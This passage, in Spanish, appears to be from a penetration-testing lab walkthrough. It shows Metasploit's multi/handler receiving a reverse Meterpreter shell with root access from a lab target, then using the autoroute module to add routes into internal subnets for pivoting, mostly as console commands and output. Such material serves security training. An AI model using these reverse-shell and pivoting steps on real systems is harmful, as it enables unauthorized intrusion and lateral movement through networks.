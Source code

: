 Si todo va según lo planeado, atraparemos la shell de Meterpreter usando el multi/handler, y luego podemos configurar las rutas.



```r
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

A continuación, podemos configurar el enrutamiento utilizando el módulo `post/multi/manage/autoroute`.



```r
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute 
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, de
                                       fault)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set subnet 172.16.8.0
subnet => 172.16.8.0
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.203.111
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```
